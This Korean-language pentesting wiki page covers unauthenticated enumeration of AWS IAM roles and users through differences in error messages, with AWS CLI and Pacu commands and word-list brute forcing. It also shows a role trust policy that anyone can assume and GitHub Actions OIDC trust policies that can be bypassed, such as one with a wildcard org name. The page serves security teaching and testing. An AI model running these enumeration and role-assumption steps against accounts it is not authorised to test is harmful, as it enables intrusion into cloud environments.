 # AWS - IAM & STS 인증되지 않은 열거

{{#include ../../../banners/hacktricks-training.md}}

## 계정의 역할 및 사용자 이름 열거

### ~~역할 가정 무차별 대입~~

> [!CAUTION]
> **이 기술은 더 이상 작동하지 않습니다**. 역할이 존재하든 존재하지 않든 항상 다음 오류가 발생합니다:
>
> `An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`
>
> **다음 명령어를 실행하여 테스트할 수 있습니다**:
>
> `aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`

필요한 권한 없이 **역할을 가정하려고 하면** AWS 오류 메시지가 발생합니다. 예를 들어, 권한이 없는 경우 AWS는 다음과 같은 메시지를 반환할 수 있습니다:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
이 메시지는 역할의 존재를 확인하지만, 해당 역할의 가정 정책이 당신의 가정을 허용하지 않음을 나타냅니다. 반면, **존재하지 않는 역할을 가정하려고 하면 다른 오류가 발생합니다**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
흥미롭게도, **존재하는 역할과 존재하지 않는 역할을 구별하는** 이 방법은 서로 다른 AWS 계정 간에도 적용 가능합니다. 유효한 AWS 계정 ID와 타겟 단어 목록이 있으면, 본인의 계정에 존재하는 역할을 열거할 수 있으며, 본질적인 제한에 직면하지 않습니다.

이 문제를 악용하여 잠재적인 주체를 열거하는 [스크립트](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum)를 사용할 수 있습니다.

### 신뢰 정책: 크로스 계정 역할 및 사용자에 대한 무차별 대입

**IAM 역할의 신뢰 정책을 구성하거나 업데이트하는 것은 어떤 AWS 리소스나 서비스가 해당 역할을 맡고 임시 자격 증명을 얻을 수 있는지를 정의하는 것을 포함합니다.** 정책에 지정된 리소스가 **존재하면**, 신뢰 정책은 **성공적으로** 저장됩니다. 그러나 리소스가 **존재하지 않으면**, **오류가 발생**하여 잘못된 주체가 제공되었음을 나타냅니다.

> [!WARNING]
> 해당 리소스에서 크로스 계정 역할이나 사용자를 지정할 수 있다는 점에 유의하십시오:
>
> - `arn:aws:iam::acc_id:role/role_name`
> - `arn:aws:iam::acc_id:user/user_name`

다음은 정책 예시입니다:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::216825089941:role/Test"
},
"Action": "sts:AssumeRole"
}
]
}
```
#### GUI

존재하지 않는 **역할**을 사용하면 이 **오류**가 발생합니다. 역할이 **존재**하면 정책이 오류 없이 **저장**됩니다. (이 오류는 업데이트에 대한 것이지만 생성할 때도 작동합니다)

![](<../../../images/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
이 프로세스는 [https://github.com/carlospolop/aws_tools](https://github.com/carlospolop/aws_tools)로 자동화할 수 있습니다.

- `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

[Pacu](https://github.com/RhinoSecurityLabs/pacu)를 사용하여:

- `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
- `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
- 예제에서 사용된 `admin` 역할은 **pacu가 열거를 위해 필요한 정책을 생성하기 위해 가장할 수 있는 귀하의 계정의 역할**입니다.

### Privesc

역할이 잘못 구성되어 누구나 이를 가정할 수 있는 경우:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
공격자는 그것을 가정할 수 있습니다.

## 제3자 OIDC 연합

**AWS** 내의 **역할**에 접근하는 **Github Actions 워크플로우**를 읽을 수 있다고 상상해 보십시오.\
이 신뢰는 다음과 같은 **신뢰 정책**을 가진 역할에 대한 접근을 제공할 수 있습니다:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
이 신뢰 정책은 올바를 수 있지만, **더 많은 조건의 부족**으로 인해 신뢰하지 않아야 합니다.\
이것은 이전 역할이 **Github Actions의 누구든지** 가정할 수 있기 때문입니다! 조건에 조직 이름, 저장소 이름, 환경, 브랜치와 같은 다른 사항도 명시해야 합니다...

또 다른 잠재적인 잘못된 구성은 다음과 같은 **조건을 추가하는** 것입니다:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**콜론** (:) 앞에 **와일드카드** (\*)가 있다는 점에 유의하세요. **org_name1**과 같은 조직을 만들고 **역할을 가정**할 수 있습니다. 

## 참조

- [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
- [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{{#include ../../../banners/hacktricks-training.md}}

